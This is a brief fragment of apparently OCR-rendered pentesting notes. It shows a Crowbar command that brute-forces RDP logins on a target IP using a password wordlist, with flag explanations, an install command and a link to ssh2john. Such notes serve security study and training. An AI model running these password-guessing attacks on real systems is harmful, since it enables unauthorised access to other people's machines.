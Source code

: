 - crowbar using
```
crowbar -b rdp -s 10.11.8.22/ 32 -u admin -c ~/password-fite.txt -n 1

-b: protocol
-s: target server
-u: username
-c: wordlist
-n: number of threads
```

------------------------------------------------------------------------------------------------------------------------
#### Remote Desktop Protocol Attack
Crowbar, formally known as Levye, is a network authentication cracking tool primarily designed to leverage SSH keys rather than passwords
- Install crowbar
```
sudo apt install crowbar
```


------------------------------------------------------------------------------------------------------------------------
# Tools
#### ssh2john
- https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py
